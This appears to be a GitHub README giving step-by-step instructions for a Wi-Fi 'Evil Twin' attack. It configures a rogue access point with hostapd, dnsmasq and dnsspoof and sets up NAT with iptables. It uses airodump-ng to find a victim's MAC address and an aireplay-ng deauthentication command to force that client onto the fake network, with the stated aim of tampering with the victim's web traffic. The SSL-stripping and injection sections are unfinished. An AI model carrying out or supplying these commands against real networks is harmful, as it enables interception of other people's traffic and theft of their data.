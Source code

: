 
# Rundown

These instructions will show how to perform a full Evil Twin Attack.

These steps will involve performing the following:
- Creating a Fake Access Point (AP)
- Deauthentication Attack
- HTTP downgrade
- Traffic Injection

The example will flip any website the user goes to.

# Requirements
https://zsecurity.org/wp-content/uploads/2020/08/fapCommands.txt

Use an up-to-date Kali Linux Installation.

`apt-get update -y && apt-get upgrade -y`

Creating the AP will require the following packages:
- hostapd (creates the access point)
- dnsmasq (DHCP service)
- dsniff (provides `dnsspoof`)

Manipulating web contents will be done using the following packages:
- bettercap (sniffs traffic and execute MITM attacks)
- SSLStrip (bypasses HTTPS encryption and HSTS)

Ensure the following files are in the same directory,
and that the related interface and ssid have been provided
inside the files.
- hostapd.conf
- dnsmasq.conf

NOTE: when assigning the interfaces, if the interface is `wlan0`,
then the assignment must be `interface=wlan0mon`.

The ssid is just the name of the Wifi (or access point) to be displayed.


# Instructions

Open a root or privileged terminal.
It is assumed from here on that all commands are
executed with privileges, or as the root user.

Alternatively, you may execute the commands on a regular
terminal by prefixing all the following commands with `sudo`.

Ex.
**sudo** airmon-ng check

## Enable monitor mode on wifi interface to be used
The interface will be referred to as `wlp4s0`.

`airmon-ng start wlp4s0`

This will create temporarily create a new interface wlp4s0**mon**.
We will be referring to interface using this new name.

## Route Table and Gateway

```
ifconfig wlp4s0mon up 192.168.1.1 netmask 255.255.255.0
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

## Internet

This next step can be skipped if you do not need to give the
connecting computers internet access.

If you do, this step will require an additional interface
that is connected to the internet.

For this example, that interface will be referred to as `eth0`,
but the interface can be specified as a wireless card too.

This step modifies the firewall of the machine temporarily
(the changes will be deleted on reboot) to allow connecting
machines to have internet access.
Commands to undo the following changes will be provided.

There are generally two methods of sharing internet:
by bridged network or Network Address Translation (NAT).

A bridged network will cause connecting computers to appear to
access the same **interface** and **subnet** that's used by the host computer.
This is more permissive, and generally not secure.

A good NAT setup (with ip forwarding/masquerading and DHCP service)
will put connecting computers to a dedicated subnet and data from/to
that subnet is translated accordingly, similar to how a router connects
a client to the internet.

In these instructions, we will be setting up a NAT.

Run the following commands:

```
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --append FORWARD --in-interface wlan0mon -j ACCEPT
echo 1 > /proc/sys/net/ipv4/ip_forward
```

To undo these commands:
```
iptables --table nat --delete POSTROUTING --out-interface eth0 -j MASQUERADE
iptables --delete FORWARD --in-interface wlan0mon -j ACCEPT
echo 0 > /proc/sys/net/ipv4/ip_forward
```

## Creating Access Point

Start each service on its own (root, or run with privileges using `sudo`)
terminal.

```
hostapd hostapd.conf
dnsmasq -C dnsmasq.conf -d
dnsspoof -i wlp4s0mon
```

## Deauthenticating Client
https://charlesreid1.com/wiki/Evil_Twin/Setup
https://xerosploit.readthedocs.io/en/latest/proxying/http.html

We need to first locate the MAC address of the target client.
This will require using the MAC address of the `Good Twin` our
host is replicating.

Assume in this case that the Good Twin's MAC addr is: AA:BB:CC:DD:EE

```
airodump-ng -d AA:BB:CC:DD:EE wlp4s0
```

You should eventually see the client, and their MAC Address.
In this example, we will assume that address to be EE:DD:CC:BB:AA

This next step will use that information to kick the target client
out of the Good Twin.

```
aireplay-ng -0 1 -a AA:BB:CC:DD:EE -c EE:DD:CC:BB:AA wlp4s0
```

Assuming the fake access point is setup accordingly, this process
should cause the target client to automatically connect to that AP
instead of the Good Twin.

MISSING SSL stripping.


## Traffic Injection
https://charlesreid1.com/wiki/MITM/Traffic_Injection

Our example will perform an HTML Injection that flips the web content
the user is trying to view.

TODO: still need to work on this bit

